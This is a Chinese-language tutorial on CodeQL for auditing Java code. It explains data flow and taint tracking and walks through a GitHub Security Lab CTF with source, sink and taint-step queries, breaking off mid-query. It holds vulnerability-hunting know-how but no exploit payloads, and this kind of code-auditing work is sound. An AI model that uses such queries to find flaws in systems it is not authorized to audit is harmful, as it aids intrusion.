Codeql 入门学习
目录
- 何为Codeql？
- 基本语法、概念
- Codeql-java
- java库
- 元素Element
-
[Type（类型）
](#Type类型) - Generics（泛型） - Variables（变量） - 抽象语法树 ast - 元数据 metadata - 指标Metrics - 调用关系Call Gragh - java数据流分析 - 局部数据流Local data flow - 使用局部数据流 - 局部污点追踪local taint tracking - 全局数据流Global data flow - 全局污点追踪global taint tracking - 数据源 - java中的Type - Codeql 实操 - codeql lab java - 1.1 :Sources - 1.2 :sink - 1.3: TaintTracking configuration - 1.4: Partial Flow to the rescue - 1.5: Adding additional taint steps - 1.6&1.7: Adding additional taint steps\&Adding taint steps through a constructor - 1.8：Finish line for our first issue - 3: Errors and Exceptions - ofcms审计试水 - 文件类 - 模板渲染类 - jfinal_cms 审计 - 初次尝试 - XSS - 从XSS到RCE
-
- 元素Element
- java库
何为Codeql？
简而言之，Codeql是github发布的用来分析代码的一个闭源工具，它通过将代码转换为特定的数据库形式进行分析，并且用ql语言对其进行查询操作。
比如下面的几排代码就是查询代码中所有方法
import java
from Method method
select method
下图便是上面代码查询得到的结果

codeql很强大，它支持如下语言的代码分析

source，sink，sanitizer 三元组
source，sink，sanitizer 这三个概念是代码自动化审计中很重要的一个概念。codeql查找安全漏洞的原理便是通过这三个东西展开的。
source可以理解为一条漏洞链的开始点，比如获取http请求中的参数，就是一个典型的source，如下图。

sink可以理解为一条漏洞链的结束点，往往是一些危险函数被可控参数所触发，如可控参数被传入执行sql语句，传入了eval方法等，如下图就是一个典型的sink（sql注入）

sanitizer 可以理解为一条漏洞链中的过滤函数，用于阻断漏洞链从source成功走到sink
如果source和sink同时存在，并且source到sink是通的，就说明漏洞存在。
SDK
codeql是用来分析代码的工具，其本体只是一个解析引擎，需要为其提供一系列语法规则来进行分析。 SDK则是许多编写好的规则，完全开源，我们可以直接用现成的SDK来编写规则。
环境搭建与启动
一般来说，环境搭建的操作是 先在github上下载codeql本体，再下载ql这个sdk，然后再完成vscode的codeql插件安装。
启动codeql分析代码的操作是 先生成目标项目文件的数据库文件 ，然后再用codeql对其进行分析。
这里引用一下freebuf上关于codeql分析代码步骤的一个图片，不难发现codeql是基于代码生成的数据库进行分析的。

具体搭建操作网上有很多，这里就不再赘述了，现成的环境搭建的文章在这里推荐几篇。
生成数据库
codeql database create database_name -l java
https://me.xxf.world/post/codeql-huan-jing-da-jian/
https://www.freebuf.com/articles/web/283795.html
基本语法、概念
只是简单的聊聊概念，并不会很深入严谨
由于笔者更注重于codeql在java中的使用，所以在codeql-java小节中会有更加深入的一些叙述。
ref:https://codeql.github.com/docs/writing-codeql-queries/codeql-queries/
基本查询结构
/**
*
* Query metadata
*
*/
import /* ... CodeQL libraries or modules ... */
/* ... Optional, define CodeQL classes and predicates ... */
from /* ... variable declarations ... */
where /* ... logical formula ... */
select /* ... expressions ... */
metadata
简而言之，就是这段查询的元数据（废话）。 我们可以通过这些元数据去定义结果的展示、提供查询目的的相关信息、为这段查询提供辨识符 等。 虽然在注释中，但是metadata依旧能够影响查询本身。
metadata的一些键值结构https://codeql.github.com/docs/writing-codeql-queries/metadata-for-codeql-queries/
import statements
用于引入依赖（.qll文件）和模块
classes and predicates
定义类的谓语
from where select
from从句后面跟变量（本质上是一个集合） ，比如 from Method a ，就是获取所有方法，然后将获取到的方法的集合命名为a
where从句后跟限制条件（集合、谓语、公式），将变量（集合）限制为更小的集合
select展示被where从句修饰过后的集合的结果
其中关于select可以延伸出 “怎样返回结果”这个问题。
select从句可以传入两种值，一个是Element（如变量），一个是String（字符串）。同时字符串也可以与Element进行拼接输出。就像这样
import java
from Method a
where a.getName().length()=5
select a.getLocation(),"methodname: "+a.getName()
也可以通过占位符\$@. 进行格式化输出.
同时在codeql中也存在着三种机制，可以提供返回结果中的元素的位置。 它们按调用的优先顺序分别是
- Providing URLs：提供URL，如果是file://协议，就会同时在URL后回跟4个数字，数字与数字之间、数字与URL之间用分号隔开，数字从左向右代表 元素在文件中的 开始行：开始列：结束行：结束列，如：
file://opt/src/my/file.java:12:1:13:0其中0:0:0:0 代表整个文件内容 1:0:1:0 代表第一行的内容 不加结尾的数字也代表整个文件内容。这个URL从谓词的getURL()方法获取。 - Providing location information：当getURL谓词不存在时，会调用hasLocationInfo。该机制不会生成getURL那样冗长的URL，而是更简洁的URL。(不太懂
- Using extracted location information：当以上两个方法都不存在时调用这个，会从数据库拾起已有的信息
查询
codeql有两种查询
- Alert queries: queries that highlight issues in specific locations in your code.（查询特定的某个点，如获取特定方法名）metadata中注明 @kind problem
- Path queries: queries that describe the flow of information between a source and a sink in your code.（通过source、sink来查找之间的通路） @kind proble-path
数据流分析
codeql官方文档对数据流分析的定义
"Data flow analysis is used to compute the possible values that a variable can hold at various points in a program, determining how those values propagate through the program and where they are used."
数据流分析用于计算一个变量在程序运行时所有有可能得到的值，分析这些值是如何在程序中传播的，以及这些值在哪里被用到过。
codeql的许多查询都基于数据流分析。
codeql的数据流分析是基于程序建模得来的数据流图的。
** 数据流图 **
数据流图

想要创建一个准确且全面的数据流图会面临下面的几个难题
有些库函数源码是闭源的，无法对源码进行建模 有些行为是在程序运行时才会展现出来的 代码中变量的别名会给分析带来困扰 数据流图生成会很大，计算分析起来速度很慢
为了解决上面的难题，现在有两种不同的建模手段可供我们选择
局部数据流：数据流图节点与节点之间的边，只考虑在同一个方法内。也就是只考虑变量在一个方法内的数据流向，忽略在不同方法之间和对象属性中的数据流向。它的速度很快而且很精确，而且更简单，对于很多问题它已经足够用了。
全局数据流：本地数据流考虑和不考虑的数据流向，它都考虑了。也就是说它会对整个项目进行建模，它更费时但是更加全面
** 数据流和污点追踪 **
举个例子，我们在追踪一个不安全的对象 X。 随着程序的进行，X来到了这样的代码中： y=X+1。 由于y是由X派生的，它被X感染影响了，所以它也已经成为了一个不安全的对象 传统的数据流分析会着重于X本身，而不会注意到y，它可能会只注意X有可能成为哪些值。 而污点跟踪则会分析y，因为y也被污点所污染了，分析污点从x流向y的过程便是污点追踪
Path queries
在上面的小节中简单叙述了关于Path queries和Alert queries
path queries在漏洞挖掘中是很有用的。许多安全问题是因为数据从开始端点流入程序（source），直到流入最后会造成安全风险的端点（sink）。我们可以在codeql中提供source和sink的信息来查找从source到sink的路径。
path queries 模板如下
/**
* ...
* @kind path-problem //path queries需要有这个metadata
* ...
*/
import <language>
// For some languages (Java/C++/Python) you need to explicitly import the data flow library, such as
// import semmle.code.java.dataflow.DataFlow
import DataFlow::PathGraph
...
from MyConfiguration config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select sink.getNode(), source, sink, "<message>"
其中，DataFlow::PathGraph 是引入的一个模块
DataFlow::PathNode source, DataFlow::PathNode sink 分别是PathGraph中的连个节点
MyConfiguration 是我们我们自定义的一个类，这个类实现了source和sink的定义。
引入模块
可以看到我们引入了 DataFlow::PathGraph，是什么意思呢？
这就需要讲到节点与节点之间的路径是如何生成的了。
如果我们不用DataFlow::PathGraph这种额外的模块，想要获取节点与节点之间的路径，就需要我们自己定义一个名为query predicate的谓词，它长这样
query predicate edges(PathNode a, PathNode b) {
/** Logical conditions which hold if `(a,b)` is an edge in the data flow graph */
}
它会根据谓词里给定的逻辑再结合数据流图，生成节点与节点之间的边。
但这样太麻烦了，所以就引入了DataFlow::PathGraph这种模块，这种模块内部定义了edges谓词，我们可以直接拿来用。
指定source、sink
在一个path query里，指定source和sink是必须的。
要指定source和sink，需要定一个继承自TaintTracking::Configuration的类，并且重写isSource、isSink方法
class VulConfig extends TaintTracking::Configuration {
VulConfig() { this = "SqlInjectionConfig" }
override predicate isSource(DataFlow::Node src) {
/*指定source node */
}
override predicate isSink(DataFlow::Node sink) {
/*指定sink node */
}
}
选择节点
最后我们会用from ...where...select... 来指定 从source流向sink的节点路径
from Configuration config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select element, source, sink, string
from 选择了三个东西：一个Configuration变量（Configuration类即我们定义source、sink时创建的类），以及两个PathNode分别代表source和sink节点
然后使用where子句调用config.hasFlowPath 来限制source到sink的流是符合我们定义的Configuration类中所规范的
然后使用select子句选择符合们定义的Configuration类中所规范的source节点和sink节点，我们除此之外还可以选择元素和字符串等数据。
Codeql-java
java库
因为我学codeql的主要目的是挖掘java漏洞，所以我会更关心codeql在java中的应用。
codeql中的java核心依赖类库是java.qll，我们使用时直接import java即可。
它主要有五种类型的类
1.Element代表项目中的元素（类、方法等）
2.ASTNode代表AST节点（statements和表达式等）
3.metadata代表元数据（注释等）
4.metrics计算指标，例如循环复杂度
5.Call Gragh代表项目的调用图，或者说调用关系
元素Element
java库中对Element类的继承关系如下

有一些官方文档提到的概念，在这里记录一下
Type（类型）
PrimitiveType 主数据类型：
boolean, byte, char, double, float, int, long, short, void, \
RefType 引用类型：
Class、Interface、EnumType、Array
TopLevelType:定义在一个java包中最高层的Type（包括class、interface等）
NestedType:除TopLevelType以外的Type，如匿名class等
TopLevelClass定义在一个java包中最高层的class，是TopLevelType的子类
NestedClass 除NestedClass以外的class，如匿名class，一个类的内部定义的class等，是NestedType子类
下面是关于以上概念的一些codeql查询语句
TopLevelType
import java
from TopLevelType tl
where tl.getName() != tl.getCompilationUnit().getName()
select tl
我认为这段ql代码是去查询所有包名和Type名不一致的TopLevelType
如会查询出这种class：NioQueueSubscriptionTestListener
package org.apache.activemq.broker;
/*code*/
class NioQueueSubscriptionTestListener implements ExceptionListener {
/*code*/
或者这样的interface
package org.apache.activemq.bugs;
/*code*/
interface Configurer {
public void configure(BrokerService broker) throws Exception;
}
import java
from NestedClass nc
where nc.getASupertype() instanceof TypeObject
select nc
我认为这段ql代码去查询所有直接继承自Object的NestedClass 。
换句话说就是没有extends语句的类（但还是会查询到implements 语句）
这不禁让我思考extends和implements 的区别：
Extends可以理解为全盘继承了父类的功能。implements可以理解为为这个类附加一些额外的功能；
interface定义一些方法,并没有实现,需要implements来实现才可用。
extend可以继承一个接口,但仍是一个接口,也需要implements之后才可用。
对于class而言，Extends用于(单)继承一个类（class），而implements用于实现一个接口(interface)。
————https://cloud.tencent.com/developer/article/1074987《浅谈java中extends与implements的区别》
Generics（泛型）
codeql中泛型用GenericType表示，它有子类GenericInterface和GenericClass分别表示所有泛型接口和泛型类。
当泛型类已经传入特定类型的变量进行参数化后，我们可以用ParameterizedType来表示所有参数化后的泛型示例，比如List\ParameterizedType我们可以直接调用其内部方法getSourceDeclaration来获得它对应的GenericType。
TypeVariable 代表泛型<>中的变量，TypeBound 代表这些变量的范围，如 \
每一个泛型都有一个无参版，我们用RawType表示，比如List\getSourceDeclaration获取GenericType
Variables（变量）
用Variable 表示。其有三个子类分别为
Field 类里面的成员变量
LocalVariableDecl 本地变量
Parameter 方法的参数
抽象语法树 ast
codeql java库中把AST节点分为了statements（Stmt）和expressions (Expr）。前者代表着语句结构，后者代表着具体的值。
这是详细介绍
Abstract syntax tree classes for working with Java programs
Expr.getAChildExpr返回给定表达式的子表达式Stmt.getAChild返回给定语句块的子表达式或子语句块Expr.getParentandStmt.getParent返回父节点，表达式的父节点不一定是表达式，语句块的父节点也不一定是语句块。
官方文档示例
import java
from Expr e
where e.getParent() instanceof ReturnStmt
select e
获取所有父节点是ReturnStmt的表达式
元数据 metadata
一般包括代码中的注解（annotations，如@overriede）和Javadoc注解。
Annotatable是annotations在codeql中的顶级类。包括包、引用类型、字段、方法、构造器和局部变量声明，可以通过程序元素的谓词getAnAnnotation来获取。
对于像@xxx 这种注释，它们都被包含在Annotation这个类中，getAnAnnotation获取到的便是Annotation对象。我们可以通过Annotation的gettype方法获取这个注释的类型。
指标Metrics
可以用来查询"循环复杂度大于40的方法"等类似的东西
调用关系Call Gragh
每当一次构造方法或者方法被调用时，就会产生一次方法调用（用类 Call表示）
我们可以用Call.getCallee来获取被调用的方法名
同时还有一个类Callable表示所有可被调用的方法， Callable.getAReference 可以获取它在哪里被调用了，返回一个Call对象。我们可以用下面的query获取未被调用过的方法。
import java
from Callable c
where not exists(c.getAReference())
select c
关于Call和Callable，官方给了个例子用于分辨
class Super {
int x;
// callable
public Super() {
this(23); // call
}
// callable
public Super(int x) {
this.x = x;
}
// callable
public int getX() {
return x;
}
}
class Sub extends Super {
// callable
public Sub(int x) {
super(x+19); // call
}
// callable
public int getX() {
return x-19;
}
}
class Client {
// callable
public static void main(String[] args) {
Super s = new Sub(42); // call
s.getX(); // call
}
}
Call有两个重要谓词 getCallee和getCaller。 个人认为getCallee是获取方法调用中所调用的方法，getCaller是获取是在哪个方法内部产生的方法调用
Callable有个重要谓词：polyCalls(Callable target)，如果参数中的target或其重写方法在程序运行时被调用了，那么就会返回成功，我们可以用此来检测程序中未经调用过的方法。
import java
from Callable callee
where not exists(Callable caller | caller.polyCalls(callee))
select callee
java数据流分析
局部数据流Local data flow
局部数据流是指一个方法或者一个调用内的数据流，它在处理许多查询时比全局数据流更简单、快速和精确。
局部数据流的相关库位于DataFlow模块，需要导入
import semmle.code.java.dataflow.DataFlow
数据流节点指数据能流经的所有节点，数据流节点分为表达式节点（ExprNode）和参数节点（ParamterNode）
在DataFlow::Node中有两个关键谓词，可以让数据流节点转为Expr或Parameter形式
class Node {
// 获取数据流节点Expr的形式
Expr asExpr() { ... }
// 获取数据流节点Parameter的形式
Parameter asParameter() { ... }
}
也有谓词exprNode和parameterNode 能把Expr或Parameter形式转换为相应的ExprNode节点ParamterNode节点
使用局部数据流
有谓词localFlowStep(Node nodeFrom, Node nodeTo)，可以在用来限定从nodeFrom到nodeTo的数据流（多用于where子句）。
我们可以用递归操作符+或*来递归这个方法，像这样localFlowStep*
localFlow相当于localFlowStep *。
可以用如下语句来限定从source流向sink的数据流
DataFlow::localFlow(DataFlow::parameterNode(source), DataFlow::exprNode(sink))
再比如说可以用以下语句查询从参数节点到表达式节点的数据流

局部污点追踪local taint tracking
举个例子，我们在追踪一个不安全的对象 X。 随着程序的进行，X来到了这样的代码中： y=X+1。 由于y是由X派生的，它被X感染影响了，所以它也已经成为了一个不安全的对象 传统的数据流分析会着重于X本身，而不会注意到y，它可能会只注意X有可能成为哪些值。 而污点跟踪则会分析y，因为y也被污点所污染了，分析污点从x流向y的过程便是污点追踪
污点追踪相关库
import semmle.code.java.dataflow.TaintTracking
污点追踪库和数据流分析所用的方法类似
localTaintStep(DataFlow::Node nodeFrom, DataFlow::Node nodeTo)
localTaintStep* 封装成了localTaint
我们写一个demo对parameterNode到exprNode的数据流进行污点追踪
import java
import semmle.code.java.dataflow.DataFlow
import semmle.code.java.dataflow.TaintTracking
from Parameter source, Expr sink
where TaintTracking::localTaint(DataFlow::parameterNode(source), DataFlow::exprNode(sink))
select source,sink

全局数据流Global data flow
追踪整个项目中的数据流，比局部数据流更加强大但也更费时。
要使用全局数据流进行分析，需要用到 DataFlow::Configuration来指定source和sink。
我们实例化一个继承自它的class并进行方法的重写，同时也写一个构造方法指定这个Configuration 的名字（这个名字应该是唯一的）。
import semmle.code.java.dataflow.DataFlow
class MyDataFlowConfiguration extends DataFlow::Configuration {
MyDataFlowConfiguration() { this = "MyDataFlowConfiguration" }
override predicate isSource(DataFlow::Node source) {
...
}
override predicate isSink(DataFlow::Node sink) {
...
}
}
除了重写isSource和isSink来指定source和sink外，还可以选择性的重写isBarrier来中断数据流，isAdditionalFlowStep来添加额外的数据流步骤，或者是延续数据流。
随后用from..where..select 查询
from MyDataFlowConfiguration dataflow, DataFlow::Node source, DataFlow::Node sink
where dataflow.hasFlow(source, sink)
select source, "Data flow to $@.", sink, sink.toString()
全局污点追踪global taint tracking
和全局数据流类似，只不过继承类换成了 TaintTracking::Configuration
数据源
codeql内部定义了一些数据源来辅助分析，如semmle.code.java.dataflow.FlowSources模块中的RemoteFlowSource类就预定义了一些常见的用户输入点，我们可以直接拿来用
override predicate isSource(DataFlow::Node source) {
source instanceof RemoteFlowSource
}
java中的Type
在java库小节中的元素一节中提到过Type这个东西，这里更加深入的理解这个东西是什么。
Type分为代表boolen、byte等基本类型的PrimitiveType和代表class、interface、array等的RefType。
对于RefType我们可以用getASupertype和getASubtype来获取其父类或子类（extends和implement）
也提供了 getAMember这个谓词去获取Type内部成员（如字段、方法、构造方法）
也提供了 inherits(Method m) 来检查type内部或者其子类里是否定义了方法m

java中存在着许多强转型，但是向下转型有些时候是危险的（如Object对象向String强转型），我们要想办法找出来
CastExprt 就是一个代表强转型的表达式，代表如 (int) i这种。
import java
from CastExpr ce, Expr source, Expr target
where source.getType() = ce.getExpr().getType()and //得到强转型中将要被强转型的对象的Type，如(int)i 中的i
target.getType() = ce.getType() and //得到强转型中转变的目标对象的Type,如（int）i中的int
target.getType().(RefType).getASupertype+() = source.getType()
select ce, "Potentially problematic array downcast."
Codeql 实操
codeql lab java
练练手写个wp
https://securitylab.github.com/ctf/codeql-and-chill/
1.1 :Sources
将javax.validation.ConstraintValidator接口下isValid方法的所有覆写方法的第一个参数设置为source
predicate isSource(DataFlow::Node source) {
exists(Method a|
a.getASourceOverriddenMethod().hasQualifiedName("javax.validation", "ConstraintValidator", "isValid") and
source.asParameter()=a.getParameter(0)
)
}
//getASourceOverriddenMethod 获取一个覆写方法的初始声明方法
返回6个结果
1.2 :sink
获取调用ConstraintValidatorContext.buildConstraintViolationWithTemplate这个方法时的第一个传入的参数
override predicate isSink(DataFlow::Node sink) {
exists(Call call|
call.getCallee().getQualifiedName().matches("ConstraintValidatorContext.buildConstraintViolationWithTemplate") and
sink.asExpr()=call.getArgument(0)
)
}
返回5个结果
1.3: TaintTracking configuration
将刚刚的source和sink汇总进行污点追踪
import java
import semmle.code.java.dataflow.TaintTracking
class Myconf extends TaintTracking::Configuration {
Myconf() { this = "Myconf" }
override predicate isSource(DataFlow::Node source) {
exists(Method a|
a.getASourceOverriddenMethod().hasQualifiedName("javax.validation", "ConstraintValidator", "isValid") and
source.asParameter()=a.getParameter(0)
)
}
override predicate isSink(DataFlow::Node sink) {
exists(Call call|
call.getCallee().getQualifiedName().matches("ConstraintValidatorContext.buildConstraintViolationWithTemplate") and
sink.asExpr()=call.getArgument(0)
)
}
}
//There has to be a query in scope even when you use Quick Evaluation
from Myconf conf,DataFlow::Node source,DataFlow::Node sink
where conf.hasFlow(source, sink)
select source,sink
返回0个结果
1.4: Partial Flow to the rescue
Partial Flow 在codeql中类似一种调试手法。 我们可以给定一个初始source，以及搜索长度，再使用Partial query就可以探测出该source延申指定长度所得到的任何sink。
在上一小节的测试中返回了0条结果，我们推测可能是从source到sink的路径断开了，我们可以通过Partial query来查找是从哪里断开的。
这里我们设置source为javax.validation.ConstraintValidator 的isValid方法中第一个且名为container的参数进行查询。
/**
* @kind path-problem
*/
import java
import semmle.code.java.dataflow.TaintTracking
class Myconf extends TaintTracking::Configuration {
override int explorationLimit() { result = 5 } //指定搜索长度
Myconf() { this = "Myconf" }
override predicate isSource(DataFlow::Node source) {
exists(Method a|
a.getASourceOverriddenMethod().hasQualifiedName("javax.validation", "ConstraintValidator", "isValid") and
source.asParameter()=a.getParameter(0)
)
}
override predicate isSink(DataFlow::Node sink) {
exists(Call call|
call.getCallee().getQualifiedName().matches("ConstraintValidatorContext.buildConstraintViolationWithTemplate") and
sink.asExpr()=call.getArgument(0)
)
}
}
//固定句式，我们给定的source是名为container的参数表达式
from Myconf conf,DataFlow::PartialPathNode source,DataFlow::PartialPathNode sink
where conf.hasPartialFlow(source, sink, _) and
source.getNode().asParameter().getName()="container"
select source,sink
查询结果（在我测试此查询的时候速度巨慢，不知道是我的原因还是什么）
我们可以得到由参数container延申出去的所有sink。

1.5: Adding additional taint steps
从上一小节的结果可以看出，数据流根本就没有进入到getHardConstraints，getSoftConstraints，keySet和HashSet构造函数内部，所以就需要我们手动链接起来
1.6&1.7: Adding additional taint steps\&Adding taint steps through a constructor
我们找到缺失的数据流路径后就可以着手进行连接了。
要进行链接我们需要写一个继承自TaintTracking::AdditionalTaintStep的类并且重写内部的step方法。
在step方法我们需要设置两个数据流节点，使其连接在一起。
以getSoftConstraints举例
我们需要设置node1为container，node2为getSoftConstraints的返回值，这样的话getSoftConstraints的返回值也将成为污点

再以HashSet的构造方法为例，我们需要设置node1为HashSet初始化时的参数，node2为其构造函数的返回值
class Fix extends TaintTracking::AdditionalTaintStep{
override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
exists(MethodAccess ma,Method m |
(m.hasName("getHardConstraints") or m.hasName("getSoftConstraints") or m.hasName("keySet")) and
ma.getMethod()=m and
node1.asExpr()=ma.getQualifier() and //getQualifier()，如现有方法调用 Foo.any() 那么对此方法调用执行getQualifier就会获得Foo这个表达式
node2.asExpr()=ma
)
or
exists( ConstructorCall cons|
